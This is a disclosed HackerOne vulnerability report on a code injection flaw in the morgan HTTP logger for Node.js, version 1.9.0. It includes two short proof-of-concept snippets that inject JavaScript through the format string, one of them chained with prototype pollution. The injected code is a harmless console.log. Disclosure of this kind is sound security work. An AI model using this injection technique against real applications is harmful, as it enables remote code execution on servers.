 # Code Injection Vulnerability in morgan Package

## Report Details
- **Report ID**: 390881
- **URL**: https://hackerone.com/reports/390881
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-08-06T12:09:05.761Z
- **Disclosed**: 2018-10-28T10:16:18.106Z

## Reporter
- **Username**: cris_semmle
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a code injection vulnerability in morgan.
It allows an attacker to inject arbitrary JS commands in certain situations.

# Module

**module name:** morgan
**version:** 1.9.0
**npm page:** `https://www.npmjs.com/package/morgan`

## Module Description

HTTP request logger middleware for node.js

    Named after Dexter, a show you should not watch until completion.


## Module Stats

1,120,329 downloads in the last week

# Vulnerability

## Vulnerability Description

An attacker can use the format parameter to inject arbitrary commands

## Steps To Reproduce:

The basic attack vector looks like this: 
```js
var morgan = require('morgan');
var f = morgan('25 \\" + console.log(\'hello!\'); +  //:method :url :status :res[content-length] - :response-time ms');
f({}, {}, function () {
});
```
However, it is hard to believe that the package is used this way in any application. However, a more interesting attack vector is when combining this vulnerability with a prototype pollution one:

```js
var morgan = require('morgan');
//payload delivered through a prototype pollution attack
Object.prototype[':method :url :status :res[content-length] - :response-time ms'] = '25 \\" + console.log(\'hello!\'); +  //:method :url :status :res[content-length] - :response-time ms';
//benign looking usage of morgan that can be exploited due to the prototype pollution attack
var f = morgan(':method :url :status :res[content-length] - :response-time ms');
f({}, {}, function () {
});
```
Eval and it's variants like  Function() should almost neve be used in such popular packages.

## Patch

N/A remove the usage of Function().


# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

If combined with a prototype pollution attack this vulnerability is very serious (RCE). Otherwise, it is very unlikely that the attacker can control the vulnerable format parameter, but not impossible to think.

## Attachments
No attachments
